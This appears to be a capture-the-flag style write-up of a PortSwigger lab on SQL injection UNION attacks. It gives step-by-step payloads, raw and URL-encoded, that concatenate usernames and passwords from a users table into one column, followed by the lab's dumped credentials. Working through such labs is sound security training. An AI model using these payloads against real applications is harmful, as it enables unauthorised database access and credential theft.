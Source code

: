 
# SQL injection UNION attack, retrieving multiple values in a single column

## This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

___
**NOTE:** => Retrieving multiple values within a single column
You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values. For example, on Oracle you could submit the input:
`' UNION SELECT username || '~' || password FROM users--`

step 1

![screnshot](lab6_lifestyle_category.jpg)


step 2

`' UNION SELECT username || '~' || password FROM users--`
URL Encoded
`'+UNION+SELECT+username+||+'~'+||+password+FROM+users--`
1st payload
`/filter?category=Lifestyle'+UNION+SELECT+username+||+'~'+||+password+FROM+users--`

![screnshot](lab6_internal_error.jpg)

step 3

`' UNION SELECT NULL,username || '~' || password FROM users--`
`'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--`
final payload
`/filter?category=Lifestyle'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--`

![screnshot](lab6_administor_id_password.jpg)

step 4

```html
<tr>
	<th>administrator~i5dmpumi3gj0f9j6u0m9</th>
</tr>
<tr>
	<th>carlos~nkvfe8sien71r8lq6hz0</th>
</tr>
<tr>
	<th>wiener~8bhjp9xprgbywgaf4cy6</th>
</tr>
```

![screnshot](portswigger_wsa/P01_server_side_topic/P01_sql_injection/images/lab6_solved_lab.jpg)